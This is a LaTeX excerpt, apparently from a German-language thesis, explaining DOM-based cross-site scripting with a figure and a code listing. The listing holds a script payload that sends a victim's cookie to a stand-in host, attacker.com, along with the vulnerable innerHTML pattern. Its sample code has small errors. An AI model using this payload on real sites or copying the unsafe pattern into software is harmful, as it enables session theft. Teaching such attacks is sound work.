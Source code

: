 \begin{figure}[ht]
	\centering
	\includegraphics[width=1\linewidth]{images/medium/3_dom_xss.png}
	\caption[Der Prozess des DOM-basierten XSS-Angriffs]
	{Der Prozess des DOM-basierten XSS-Angriffs \autocite{makarem2018}}
\end{figure}

\begin{lstlisting}[caption={Beispiel für DOM-based XSS Attacke},label=dom_xss_example]
Hey user, check this out: "http://website.com/search?keyword=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>"

GET "http://website.com/search?keyword=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>"

<html>
	<h1> You Searched for:</h1>
	<div id ="searchquery"></div>
	<script>
		var keyword = location.search.substring(3);
		document.querySelector('searchquery').innerHTML = keyword;
	<script>
</html>

<html>
	<h1> You Searched for:</h1>
		<div id ="searchquery">
			<script>window.location='http://attacker.com/?cookie='+document.cookie</script>
		</div>
	<script>
		var keyword = location.search.substring(3);
		document.querySelector('searchquery').innerHTML = keyword;
	<script>
</html>

GET "http://attacker.com/?cookie=user-cookie"
\end{lstlisting}



